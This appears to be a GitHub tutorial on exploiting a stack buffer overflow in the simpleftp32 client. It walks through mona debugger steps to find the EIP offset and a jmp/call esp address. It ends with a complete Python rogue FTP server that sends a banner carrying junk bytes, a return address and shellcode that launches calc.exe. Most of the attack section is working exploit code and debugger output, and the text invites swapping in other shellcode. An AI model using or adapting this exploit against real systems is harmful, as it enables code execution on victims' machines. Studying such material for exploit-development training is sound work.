






# know how overflow calc example exploiting simpleftp32

```py

#!/usr/bin/python3

"""
know how overflow

1. conect with socket

"""

from socket import *

payload = "Here we will insert the payload"

s = socket(AF_INET, SOCK_STREAM)
s.bind(("0.0.0.0", 21))
s.listen(1)
print ("[+] Listening on [FTP] 21")
c, addr = s.accept()

print ("[+] Connection accepted from: %s" % (addr[0]))

c.send("220 "+payload+"\r\n")
c.recv(1024)
c.close()
print ("[+] Client exploited !! quitting")
s.close()

```

## 1 


1. open immunity debugger and open .exe
2. execute .exe in immunity
3. !mona pc 1500
4. get payload



## 2 

1. launch py

```bash
python 32BitFTP_server.py
```

2. restart in immunity and connect to 127.0.0.1



3. now the program stop automatically


Now we can see our payload and EIP

EIP --> 30684239

# 3 find offset

1. search eip
```bash
!mona po 30684239
```

We can see that its 989 

2. change our payload for "\xc3"*989




3. Add "\x41\x41\x41\x41" for easy search
```py
payload = "\xc3"*989 #junk bytes
payload+="\x41\x41\x41\x41" # jmp/call esp address
```
4. Now reload the server and the client



The program crach in our payload 41414141 , now we can add our exploit

# 4 we need obtain a jmp 

1. 
```bash
!mona jmp -r esp -m kernel
```

2. we obtain 5 jmp and 3 call



We will use last call with address 7550A821

3. change our payload using indian notation

7550A821 = 21A85075

And add our try exploit with \x90\x90\x90\x90\x90 for easy search

4. Reload server and application

The program crash again and stop in 03E7EFE0. The operation its none and we can see value 90909090



## 5

1. Now you can put address for other function or program

shellcode for calc.exe its

```bash
\x50\x53\x51\x52\x56\x57\x55\x89\xe5\x83\xec\x18\x31\xf6\x56\x6a\x63\x66\x68\x78\x65\x68\x57\x69\x6e\x45\x89\x65\xfc\x31\xf6\x64\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10\x89\x5d\xf8\x31\xc0\x8b\x43\x3c\x01\xd8\x8b\x40\x78\x01\xd8\x8b\x48\x24\x01\xd9\x89\x4d\xf4\x8b\x78\x20\x01\xdf\x89\x7d\xf0\x8b\x50\x1c\x01\xda\x89\x55\xec\x8b\x58\x14\x31\xc0\x8b\x55\xf8\x8b\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc\x8b\x3c\x87\x01\xd7\x66\x83\xc1\x08\xf3\xa6\x74\x0a\x40\x39\xd8\x72\xe5\x83\xc4\x26\xeb\x41\x8b\x4d\xf4\x89\xd3\x8b\x55\xec\x66\x8b\x04\x41\x8b\x04\x82\x01\xd8\x31\xd2\x52\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x68\x6d\x33\x32\x5c\x68\x79\x73\x74\x65\x68\x77\x73\x5c\x53\x68\x69\x6e\x64\x6f\x68\x43\x3a\x5c\x57\x89\xe6\x6a\x0a\x56\xff\xd0\x83\xc4\x46\x5d\x5f\x5e\x5a\x59\x5b\x58\xc3
```
2. reload server and ftp client


## The last code for py 

```py

#!/usr/bin/python

from socket import *

payload = "\xc3"*989 #junk bytes

#use indian notation 7550A821
payload+="\x21\xA8\x50\x75" # jmp/call esp address

#shellcode that will be executed if we exploit the buffer overflow

payload+=("\x50\x53\x51\x52\x56\x57\x55\x89\xe5\x83\xec\x18\x31\xf6\x56\x6a\x63\x66\x68\x78\x65\x68\x57\x69\x6e\x45\x89\x65\xfc\x31\xf6\x64\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10\x89\x5d\xf8\x31\xc0\x8b\x43\x3c\x01\xd8\x8b\x40\x78\x01\xd8\x8b\x48\x24\x01\xd9\x89\x4d\xf4\x8b\x78\x20\x01\xdf\x89\x7d\xf0\x8b\x50\x1c\x01\xda\x89\x55\xec\x8b\x58\x14\x31\xc0\x8b\x55\xf8\x8b\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc\x8b\x3c\x87\x01\xd7\x66\x83\xc1\x08\xf3\xa6\x74\x0a\x40\x39\xd8\x72\xe5\x83\xc4\x26\xeb\x41\x8b\x4d\xf4\x89\xd3\x8b\x55\xec\x66\x8b\x04\x41\x8b\x04\x82\x01\xd8\x31\xd2\x52\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x68\x6d\x33\x32\x5c\x68\x79\x73\x74\x65\x68\x77\x73\x5c\x53\x68\x69\x6e\x64\x6f\x68\x43\x3a\x5c\x57\x89\xe6\x6a\x0a\x56\xff\xd0\x83\xc4\x46\x5d\x5f\x5e\x5a\x59\x5b\x58\xc3")

s = socket(AF_INET, SOCK_STREAM)
s.bind(("0.0.0.0", 21))
s.listen(1)
print "[+] Listening on [FTP] 21"
c, addr = s.accept()

print "[+] Connection accepted from: %s" % (addr[0])

c.send("220 "+payload+"\r\n")
c.recv(1024)
c.close()
print "[+] Client exploited !! quitting"
s.close()


```


